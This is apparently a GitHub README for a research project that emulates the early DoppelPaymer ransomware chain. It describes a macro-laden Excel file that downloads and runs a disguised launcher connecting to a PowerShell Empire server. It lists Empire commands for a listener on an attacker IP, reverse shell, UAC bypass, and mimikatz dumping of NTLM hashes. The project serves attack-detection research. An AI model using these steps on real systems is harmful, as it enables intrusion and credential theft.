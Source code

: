 # Attack Emulation of the Fore Part of Doppelpaymer Attack Chain
## Second Part of this Project
* https://github.com/chieh0613/Log-based-Anomaly-Detection-and-Tracing-back-to-Phishing-Emails

## Introduction
    An APT attack consists of various tactics, including initial access, credential access, and command and control.
    DoppelPaymer is a ransomware that have launched their attacks since 2019, threatening victims after stealing their files.
    We try to reproduce the attack scenario based on the fore part of Doppelpaymer attack chain.

## Victim's OS and requiremnts
* Edition: Windows 10 Home
* Version: 2004
* Microsoft Office
* 7-zip/WinRAR
* Windows Defender disabled

## Attacker's OS and requirements
* Kali Linux
* Empire


## Unzip
    In the folder unzip, we try to generate an executable file "unzip.exe" to extract file from "launcher.zip" with the password "123".
* Type "python run.py" to generate the file "unzip.exe".
* Requirements:
  * python==3.8.8
  * pyinstaller==4.3 

## Unzip.txt
    Because we cannot download the executable file directly, we change the file extension from .exe to .txt.
    After the modication, we can use macro to download the file directly by a given link.

## launcher.zip
    Contains the file "launcher.bat" with the password "123". 
    After executing the file "launcher.bat", the victim will connect to the empire server.

## project.xlsm
    It is a macro enabled excel document.
    The followings are what it will do:
    * Download the file "launcher.zip" to %temp% folder
    * Download the file "unzip.exe" to %temp% folder
    * Execute the file "unzip.exe" to get the file "launcher.bat"
    * Execute the file "launcher.bat" to connect to the empire server

## project.zip
    Contains project.xlsm with password '123'. 

## Empire Commands
* Generate the file "launcher.bat" to let the victim connect to the empire server:
    1. Use "uselistener http" to generate listener
      * set Name http
      * set Host 192.168.2.30 (attacker's ip)
      * set Port 8080
      * execute
    2. Use "usestager windows/launcher_bat" to generate the file "launcher.bat"
      * set Listener http
      * execute

* After the victim connects to the empire server, run the following commands:
    1. type "agents" to find the value of victim's Name (<victim_Name>)
    2. type "interact <victim_Name>"
    3. Reverse shell
      * shell tasklist
      * shell netstat
      * shell ipconfig
    4. Use "usemodule privesec/bypassuac" to get administrator privilege
      * set Listener http
      * execute
    5. Use "usemodule credentials/mimikatz/logonpasswords*" to get the victim's NTLM hash
      * execute

# Reference
* https://github.com/mishmashclone/BC-SECURITY-Empire
* https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/
* https://ethicalhackingguru.com/how-to-use-powershell-empire-3-the-powershell-empire-3-tutorial/
* https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf
* https://stackoverflow.com/questions/6934169/how-to-show-current-user-name-in-a-cell
* https://vblocalhost.com/uploads/VB2020-61.pdf
* https://github.com/DarkSecDevelopers/shellpy.git

